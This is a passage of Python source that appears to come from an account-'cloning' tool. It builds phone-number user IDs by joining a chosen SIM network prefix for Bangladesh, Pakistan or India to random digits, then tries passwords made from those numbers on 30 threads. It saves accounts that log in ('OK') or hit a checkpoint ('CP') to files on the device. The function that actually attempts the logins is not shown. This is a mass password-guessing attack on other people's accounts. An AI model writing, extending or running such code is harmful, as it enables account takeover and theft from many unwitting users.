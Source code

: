 def pass2():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER D4DY-M4H1N\033[1;91m                :\033[1;96m "+D4DY-M4H1NX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m2') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,uid]
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()
    